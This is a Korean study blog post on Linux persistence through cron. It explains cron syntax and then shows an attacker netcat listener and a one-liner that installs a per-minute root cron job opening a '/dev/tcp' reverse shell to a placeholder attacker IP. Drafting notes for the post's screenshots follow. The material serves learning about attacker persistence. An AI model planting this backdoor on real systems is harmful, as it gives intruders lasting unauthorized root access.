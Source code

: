 ```yaml
---
layout: post
title: "cron을 이용한 지속성 확보 공부"
date: 2025-09-19 17:00:00 +0900
categories: Study 시스템 해킹
---
```


### 1. 개요

지속성`Persistence`은 공격자가 시스템 재부팅 · 세션 종료 · 초기 침투에 사용된 취약점이 패치된 후에도 시스템에 대한 접근 권한을 계속 유지하는 기술이다. 권한을 획득한 것만큼이나 그 권한을 잃지 않는 것이 중요하며 리눅스 환경에서는 주기적으로 명령을 실행하는 `cron` 스케줄러가 지속성 확보를 위한 주요 수단으로 사용된다.

---

### 2. cron 기본

`cron`은 특정 시간에 지정된 작업을 자동으로 실행하는 리눅스의 데몬이다. 사용자는 `crontab` 파일을 수정하여 작업을 예약할 수 있다.

*   **주요 경로:**
    *   `/etc/crontab`: 시스템 전체에 적용되는 cron 작업 파일. 사용자 계정을 지정하여 명령을 실행할 수 있다.
    *   `/var/spool/cron/crontabs/`: 사용자별 crontab 파일이 저장되는 디렉터리. `root` 사용자의 crontab은 여기에 위치한다.
*   **형식:**
    ```
    # ┌───────────── 분 (0 - 59)
    # │ ┌───────────── 시 (0 - 23)
    # │ │ ┌───────────── 일 (1 - 31)
    # │ │ │ ┌───────────── 월 (1 - 12)
    # │ │ │ │ ┌───────────── 요일 (0 - 6)
    # │ │ │ │ │
    # * * * * * <사용자> <실행할 명령어>
    ```

---

### 3. 사용 예시: crontab을 이용한 리버스 쉘 연결

이전 게시글에서 `root` 권한을 획득한 공격자가 매 분마다 공격자 PC로 리버스 쉘을 연결하는 cron 작업을 등록하여 시스템에 대한 영구적인 백도어를 생성하는 상황이다.

#### **1. 공격자 리스너 실행**
공격자 PC에서 `netcat`을 이용해 4444번 포트에서 연결을 대기한다.
```bash
nc -lvnp 4444
```

#### **2. 대상 서버에 cron 작업 등록**
획득한 `root` 쉘에서 `root` 사용자의 crontab에 1분마다 리버스 쉘을 실행하는 작업을 추가한다. `crontab -e`를 사용하는 대신 `echo`와 파이프를 이용하여 비대화형(non-interactive) 방식으로 작업을 등록할 수 있다.
```bash
# 기존 crontab 내용을 유지하면서 새 작업을 추가
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1") | crontab -
```

#### **3. 연결 수신 확인**
cron 작업이 등록되고 1분 이내에 공격자 PC의 `netcat` 리스너는 대상 서버로부터 들어오는 `root` 권한의 쉘 연결을 수신하게 된다.
[여기에 Crontab 설정 및 리버스 쉘 수신 비교 이미지 삽입]

이제 대상 서버가 재부팅되거나 다른 관리자가 악성 프로세스를 종료시키더라도 `cron` 데몬은 매 분마다 공격자에게 다시 쉘을 제공하므로 공격자는 시스템에 대한 통제권을 잃지 않게 된다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Crontab 설정 및 리버스 쉘 수신 비교 이미지 제작**

이 이미지는 원인(cron 작업 등록)과 결과(쉘 연결 수신)를 명확하게 보여줍니다.

**1. "Before" 이미지 (Crontab 설정)**

1.  (준비) `GTFOBins` 등을 통해 `root` 권한을 획득한 **대상 서버(Target)**의 터미널 창을 준비합니다.
2.  `crontab -l` 명령을 실행하여 현재 등록된 cron 작업이 없는 것을 보여줍니다. (오류가 나거나 아무것도 출력되지 않음)
3.  위 `3. 사용 예시` 섹션의 2번 명령어 `(crontab -l ...)`를 실행하여 리버스 쉘 작업을 등록합니다.
4.  `crontab -l` 명령을 다시 실행하여, `* * * * * /bin/bash ...` 라인이 성공적으로 추가되었음을 보여줍니다.
5.  이 과정이 모두 담긴 **대상 서버**의 터미널 화면을 스크린샷으로 찍어 **`Crontab_설정.png`** 로 저장합니다.

**2. "After" 이미지 (Reverse Shell 수신)**

1.  (준비) **공격자 PC(Attacker)**의 터미널에서 `nc -lvnp 4444` 명령어를 실행하여 리스닝 상태로 둡니다.
2.  **대상 서버**에서 cron 작업이 실행될 때까지 최대 1분간 기다립니다.
3.  시간이 되면 **공격자 PC**의 터미널에 `connect to ...` 메시지와 함께 `root@ubuntu...` 와 같은 `root` 프롬프트가 나타납니다.
4.  `whoami` 명령어를 실행하여 `root`가 출력되는 것을 추가로 보여줍니다.
5.  이 연결 수신 및 명령어 실행 결과가 보이는 **공격자 PC**의 터미널 화면을 스크린샷으로 찍어 **`Reverse_Shell_수신.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램에서 `Crontab_설정.png`(왼쪽)와 `Reverse_Shell_수신.png`(오른쪽)를 나란히 배치합니다.
2.  각 이미지 위에 "**대상 서버 (Crontab 설정)**"과 "**공격자 PC (Reverse Shell 수신)**" 텍스트를 추가합니다.
3.  왼쪽 이미지에서는 `crontab -l` 결과로 출력된 리버스 쉘 명령어 라인에 하이라이트를 적용합니다.
4.  오른쪽 이미지에서는 새로 획득한 `root` 프롬프트와 `whoami` 결과에 하이라이트를 적용하여, cron 작업을 통해 쉘을 획득했음을 명확히 보여줍니다.
5.  수정된 이미지를 저장하여 게시글에 삽입합니다.